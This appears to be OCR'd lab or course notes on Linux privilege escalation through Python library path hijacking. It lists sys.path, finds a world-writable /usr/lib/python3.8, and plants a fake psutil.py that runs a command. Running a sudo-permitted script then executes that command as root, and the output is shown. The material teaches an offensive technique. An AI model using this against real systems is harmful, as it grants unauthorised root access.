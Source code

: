 In Python, each version has a specified order in which libraries (modules) are searched and imported from.

1) PYTHONPATH Listing

python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages

2 prerequisites are necessary :

- The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.
- We must have write permissions to one of the paths having a higher priority on the list.

2) Psutil Default Installation Location

pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

...SNIP...

3) Check if there are misconfigured Directory Permissions

ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
...SNIP...


--> /usr/lib/python3.8 path is misconfigured in a way to allow any user to write to it

4) Hijacked Module Contents - psutil.py

Create our own psutil module containing our own malicious virtual_memory() function within the /usr/lib/python3.8 directory

vi /usr/lib/python3.8/psutil.py

#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')

5) Privilege Escalation via Hijacking Python Library Path

sudo /usr/bin/python3 mem_status.py

uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
  File "mem_status.py", line 4, in <module>
    available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
AttributeError: 'NoneType' object has no attribute 'available' 
